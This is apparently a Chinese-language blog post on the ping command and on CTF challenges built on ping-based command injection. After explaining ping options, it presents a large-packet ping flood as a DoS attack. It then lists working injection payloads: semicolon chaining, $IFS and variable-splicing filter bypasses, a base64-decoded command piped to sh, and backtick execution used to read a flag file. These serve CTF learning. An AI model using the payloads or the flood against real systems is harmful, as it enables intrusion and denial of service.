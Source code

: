 # Ping


&gt; 参考文章：
&gt; [常用网络命令：ping命令的使用](https://blog.csdn.net/flyroc08/article/details/120103617?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522169078581616800185856937%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&amp;request_id=169078581616800185856937&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-120103617-null-null.142^v91^koosearch_v1,239^v12^control2&amp;utm_term=ping&amp;spm=1018.2226.3001.4187)
&gt; [CTF——ping相关](https://blog.csdn.net/jklw4/article/details/108552103?ops_request_misc=&amp;request_id=&amp;biz_id=102&amp;utm_term=%E9%A2%98%E7%9B%AEPing&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-5-108552103.142^v91^koosearch_v1,239^v12^control2&amp;spm=1018.2226.3001.4187)

## 基本理论
1. Ping主要作用
（1）通常用来检测网络的连通情况和测试网络速度；
（2）根据域名得到相应主机的IP地址；
（3）根据ping返回的TTL值来判断对方所使用的操作系统及数据包经过路由器数量；
（4）进行网络扫描和攻击。
2. 用法
对于网络管理员和普通用户来说，我们通常用它来测试网络的连通情况，如果无法正常上网，ping命令是检测网络故障的基本工具。
ping命令的最简单用法是在命令提示符下输入：**ping 对方IP地址**，这样就可以测试本机和对方主机之间的网络连通情况了
3. 常见词汇
**bytes值**：表示通信过程中发送的数据包大小，单位是字节。
**time值**：表示响应时间，这个时间越小，说明你与对方通信的速度越快，延时越短。
**TTL值**：Time To Live,表示数据包再经过多少个路由器如果还不能到达就将被丢弃，这里可以通过Ping返回的TTL值大小，粗略地判断目标系统类型是Windows系列还是UNIX/Linux系列。
默认情况下，
**Linux系统的TTL最大值为64或255**，
**WindowsNT/2000/XP系统的TTL最大值为128**，
**UNIX主机的TTL最大值为255**。

## Ping的用法
![image-1690785864114](/upload/2023/07/image-1690785864114.png)

## 详细
1. **ping -t** 对方IP地址
可以不间断地ping指定IP地址的计算机，直到管理员使用Ctrl&#43;C中断，这样管理员可以通过比较多次通信后的统计数据来判断网络连接情况。
比如发送了多少数据包，接收到多少，丢失了多少，平均往返时间多少等等，以此来判断网络性能。

2. **ping -n** 数据包数量 对方IP地址
在默认情况下，一般执行一次ping命令只发送4个数据包，通过-n选项则可以自己定义发送的数据包个数，对衡量网络速度都很有帮助。
比如测试发送10个数据包的返回的平均时间为多少，最快时间为多少，最慢时间为多少。

例：
```
ping -n 10 47.93.187.142 	\\向47.93.187.142 这台主机发送10个数据包
```

3. ping -l 数据包大小 对方IP地址
在默认的情况下Windows的ping发送的数据包大小为**32字节**，**最大能发送65535字节**。当一次发送的数据包大于或等于65535字节时，将可能导致接收方计算机宕机。所以微软限制了这一数值。
这个参数配合其它参数功能非常强大，比如可以结合-t参数实施DOS攻击。
例：
```
ping -l 65500 -t 211.84.7.46	\\会连续对211.84.7.46这个地址执行ping命令，发送大量数据，导致对方网络拥塞或者主机宕机
```

4. 批量ping一个网段内的所有IP地址
对于一个网段IP地址众多，单个检测麻烦可以直接批量ping网段检测，哪个IP地址出了问题。
例：
```
for /L %D in (1,1,255) do ping 10.168.1.%D	\\依次ping从10.168.1.1到10.168.1.255的所有255个地址
```
*注：for /L %D in(1,1,255) do是批处理命令，其中的（1,1,255）表示变量%D的值从1开始，每次递增1，到255为止。就是检测网段10.168.1.1到10.168.1.255之间的所有的ip地址，每次递增1，直接到1到255这255个ip检测完为止。*

## 有关Ping的题目
1. 检测是否可以注入
```127.0.0.1;whoami```
但如果前段检测或者筛选，可能导致无法使用

2. 猜测尝试&#43;绕过**过滤**
（1）常见过滤字符：
```$```，```;```，```|```，```-```，```(```，```)```，```&#39;```[反引号],```||```，```&amp;&amp;```，```&amp;```，```{```，```}```，``` ```[空格]
（2）解决
```
127.0.0.1;a=&#34;l&#34;;b=&#34;s&#34;;c=$a$b;$c	\\(后面的部分可能会用引号包裹）
```
```
${IFS} or $IFS or $IFS$9
```

3. linux常用指令
（1）**文件搜索**
```find / -name file1 \\从 ‘/’ 开始进入根文件系统搜索文件和目录```
（2）**关于文件与目录**
```cd /home ```进入 ‘/ home’ 目录’
```cd … ```返回上一级目录
```pwd```显示工作路径
```ls```查看目录中的文件
```ls -F```查看目录中的文件
```ls -l ```显示文件和目录的详细资料
```ls -a```显示隐藏文件
（3）**查看文件内容**
```cat file1``` 从第一个字节开始正向查看文件的内容

4. 管道符
（1）```|```（就是**按位或**）
直接执行|后面的语句
（2）```||```（就是**逻辑或**）
如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句
（3）```&amp;```（就是**按位与**）
&amp;前面和后面命令都要执行，无论前面真假
（4）```&amp;&amp;```（就是**逻辑与**）
如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令
&#43;&#43;这里没试出来flag的话用cmd试一下&#43;&#43;
（5）```;```（linux下有的，**和&amp;一样的作用**）

5. 解题思路
（1）利用变量实现字符串拼接
例：
```
/?ip=127.0.0.1;b=ag;a=fl;cat$IFS$a$b.php
```
*注：a，b变量互换为了绕过字符串匹配*
（2）通过执行sh命令执行【bash不被过滤前提】
```
/?ip=127.0.01;echo$IFS$1Y2F0IGZsYWcuccGhw|base64$IFS$1-d|sh
```
*注：sh是linux中shell命令，bash相当于sh的升级版，是sh的一种形式*
（3）内联执行
```
/?ip=127.0.0.1;cat$IFS$9`ls`
```
*注：内联——将反引号的命令输出作为输入执行*

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-ping/  


